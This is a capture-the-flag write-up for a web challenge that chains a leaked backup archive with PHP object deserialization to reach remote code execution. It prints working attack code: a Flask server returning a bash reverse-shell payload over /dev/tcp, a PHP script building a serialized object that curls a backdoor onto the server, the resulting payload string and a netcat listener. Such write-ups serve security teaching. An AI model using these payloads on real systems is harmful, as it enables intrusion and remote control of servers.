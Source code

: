 Name
----

Web: Exotic Attacks: Handy Tool

Description
-----------

Try to find a piece of source code left on the server.
You may need to spawn a reverse shell for this one: [url]141.85.224.101:8004/[/url].

Score: 150

Vulnerability
-------------

LFI + PHP Object Injection / PHP Insecure Object Deserialization + RCE

Exploit
-------

First, use the **Guess my last name** option. As in the Romanian cartoon, the correct answer is **Iscusitul**. After you input it, the server echoes `backup.zip`.

This is the name of an archive left in the server containing a relevant piece of source code. Access it at `/backup.zip` and decompress it.

The other tools in the web page really do what they say: uppercase the input, unserialize it or trim the whitespace. You guessed it, the handy one is **Unserialize**.

After inspecting the source code in the archive, you see what the serialized input object should look like. It has to be a PHP class with two attributes:
 * `$condition` - boolean with the value `true`
 * `$prop` - a string you can use for remote code execution on the server

Since the actual output of the command is not shown, only the unserialized string, you should try to create a reverse shell.

I started a Flask app on port 1234 where, if accessed, I return a piece PHP code that spawns a reverse shell to my machine. You should find out what your IP address is and change it. You can run the server with: `python app.py`

```
# app.py
from flask import Flask, make_response

app = Flask(__name__)

@app.route("/", methods=['GET'])
def index():

    MY_IP = '172.17.0.1'

    code = '''<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/%s/1234 0>&1'");''' % MY_IP

    return make_response(code)


if __name__ == "__main__":
    app.run(host="0.0.0.0", debug=True, port=1234)
```

I created a PHP class with a command that performs a request to my server and saves the output to `backdoor.php`. I created the serialized input. Make sure to change the IP with yours.

```
<?php
//payload.php
class PHPClass
{
	public $condition = true;
	public $prop = "system('curl http://172.17.0.1:1234 -o backdoor.php');";
}
echo serialize(new PHPClass);
?>
```

You can run this file in command line with: `php payload.php`. The serialized payload is:

`O:8:"PHPClass":2:{s:9:"condition";b:1;s:4:"prop";s:54:"system('curl http://172.17.0.1:1234 -o backdoor.php');";}`

After you input it on the server, the file `/backdoor.php` is created and you can access it.

In the meantime, the Flask server on your machine won't support this reverse shell. You need to close it and open a simple netcat connection before you access the backdoor:

`nc -nvlp 1234`
